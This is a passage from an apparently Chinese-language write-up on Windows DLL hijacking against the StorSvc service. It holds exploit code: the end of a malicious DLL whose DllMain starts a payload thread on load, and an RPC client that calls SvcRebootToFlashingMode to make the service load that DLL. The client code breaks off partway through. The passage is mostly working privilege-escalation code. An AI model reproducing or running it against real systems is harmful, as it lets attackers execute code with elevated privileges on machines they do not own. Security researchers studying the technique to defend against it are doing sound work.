 ```c++
    HANDLE hThread = NULL;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hModule);
        hThread = CreateThread(NULL, 0, DoMagic, 0, 0, 0);
        if (hThread) {
            CloseHandle(hThread);
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

再创建另一个项目，通过 RPC 调用 `StorSvc.dll!SvcRebootToFlashingMode()` 方法，主要代码如下。

- RpcClient.exe

```c++
#include "storsvc_h.h"
#include <iostream>
#include <windows.h>

#pragma comment(lib, "RpcRT4.lib")

int wmain(int argc, wchar_t* argv[])
{
    RPC_STATUS RpcStatus;
    RPC_WSTR StringBinding;
    RPC_BINDING_HANDLE hBinding;

    RpcStatus = RpcStringBindingComposeW(NULL, (RPC_WSTR)L"ncalrpc", (RPC_WSTR)L"", (RPC_WSTR)L"", NULL, &StringBinding);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcStringBindingComposeW() Error: [%u]\n", GetLastError());
        return 0;
    }

    RpcStatus = RpcBindingFromStringBindingW(
        StringBinding,
        &hBinding
    );
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingFromStringBindingW() Error: [%u]\n", GetLastError());
        return 0;
    }

    RpcStatus = RpcStringFree(
        &StringBinding
    );
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcStringFreeW() Error: [%u]\n", GetLastError());
        return 0;
    }

    RpcTryExcept
    {
        long result = Proc6_SvcRebootToFlashingMode(hBinding, 0, 0);
        if (result == 0)
            wprintf(L"[*] Dll hijack triggered!");
```